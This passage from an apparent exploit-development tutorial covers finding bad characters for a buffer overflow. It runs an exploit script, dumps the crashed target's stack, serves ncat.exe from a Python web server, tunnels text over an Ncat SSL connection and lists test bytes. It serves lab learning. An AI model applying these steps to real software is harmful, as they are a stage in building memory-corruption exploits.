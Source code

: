 ### [3] Execute script and identify bad characters.

In Kali:

```
root@kali:~# python sploit.py
```

In your debugging system, confirm the target app has crashed. Copy or save a hex dump of the stack, encompassing at least all 255 of the UTF character hex values and some of the offset (repeating letter A, or \x41). It will look like this:

```
...
      01DEFE64   0C0B0A09  ..
      01DEFE68   100F0E0D  .
      01DEFE6C   14131211
      01DEFE70   18171615
      01DEFE78   201F1E1D
      01DEFE7C   24232221  !"#$
      01DEFE80   28272625  %&'(
...
```

Transfer Ncat to the debugging machine. On Kali, run a temporary Python web server:

```
root@kali:~# cd /usr/share/windows-binaries/
root@kali:/usr/share/windows-binaries# python -m SimpleHTTPServer
```

Use Internet Explorer on the debugging machine to browse to and download Ncat at the URL `http://<KaliIpAddress>:8000/ncat.exe`. Save the file to the root C-drive directory, `C:\ncat.exe`.

Use Ncat to transfer text.

```
root@kali:~# ncat --ssl -nvlp 443
```

```
C:\Users\Admin>cd c:\
C:\>ncat.exe -nv 10.11.0.42 443 --ssl
```

Paste the hex dump as plaintext into the Windows side of the TCP tunnel. Copy the text on the Kali side and paste it into a txt file called “badcharsout.txt”.

Massage the hexdump file contents on your Kali machine.

```
(output=$(cat badcharsout.txt | cut -d" " -f 4 | fold -w2 | paste -sd'\n' - | sort); for line in $output; do echo -n '\x'; echo -n $line; done; echo) | fold -w 64 | paste -sd "\n"
```

Once you have the characters in a per-byte format you want, copy the output and paste it into a text editor. Above it, paste the badchars.py output. Use the GUI text editor to help you align columns quickly. You should be able to identify missing or modified bytes rapidly:

```
 all hex bytes except 0x00:
 --------------------------
    \x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f
\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f
\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f
\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f
\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f
\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f
\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f
\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f
\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f
\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f
```